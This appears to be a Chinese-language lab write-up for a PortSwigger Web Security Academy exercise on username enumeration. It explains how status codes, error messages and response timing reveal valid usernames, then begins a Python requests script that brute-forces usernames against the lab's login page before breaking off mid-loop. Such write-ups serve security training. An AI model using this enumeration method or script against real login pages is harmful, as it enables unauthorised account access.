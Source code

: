 在嘗試暴力破解登錄頁面時，你應該特別注意以下方面的任何差異：

* **狀態碼**：在暴力破解攻擊期間，返回的 HTTP 狀態碼對於絕大多數猜測可能是相同的，因為大多數都是錯誤的。如果某個猜測返回不同的狀態碼，這強烈表明用戶名是正確的。網站的最佳做法是無論結果如何都始終返回相同的狀態碼，但這種做法並不總是被遵循。

* **錯誤訊息**：有時返回的錯誤訊息會根據用戶名和密碼是否都不正確，或者只有密碼不正確而有所不同。網站的最佳做法是在兩種情況下都使用相同的通用訊息，但有時會出現小的打字錯誤。即使在字符在渲染頁面上不可見的情況下，僅一個字符的位置錯誤就會使兩個訊息截然不同。

* **回應時間**：如果大多數請求都以相似的回應時間處理，任何偏離此時間的請求都表明幕後發生了不同的事情。這是猜測的用戶名可能正確的另一個指示。例如，網站可能只有在用戶名有效時才檢查密碼是否正確。這個額外步驟可能導致回應時間略微增加。這可能很微妙，但攻擊者可以透過輸入過長的密碼使網站需要明顯更長時間處理，從而使這種延遲更加明顯。

::: tip **Lab: [Username enumeration via different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)**
1. 寫程式爆破帳號和密碼：
    ```Python:line-numbers
    import requests

    def init():
        global cookies, headers, data
        cookies = {
            'session': 'H1Uhv8fuWXoes5VysCN1ORMv2Nc42qj9',
        }

        headers = {
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'accept-language': 'zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7',
            'cache-control': 'no-cache',
            'content-type': 'application/x-www-form-urlencoded',
            'dnt': '1',
            'origin': 'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net',
            'pragma': 'no-cache',
            'priority': 'u=0, i',
            'referer': 'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net/login',
            'sec-ch-ua': '"Not.A/Brand";v="99", "Chromium";v="136"',
            'sec-ch-ua-mobile': '?0',
            'sec-ch-ua-platform': '"macOS"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'same-origin',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36',
            # 'cookie': 'session=H1Uhv8fuWXoes5VysCN1ORMv2Nc42qj9',
        }

        data = {
            'username': '1322',
            'password': '123123',
        }

    def enum_username():
        with open('username.txt', 'r') as f:
            usernames = f.readlines()
            for i in usernames:
                data = {
                    'username': i.strip(),
                    'password': '123',
                }
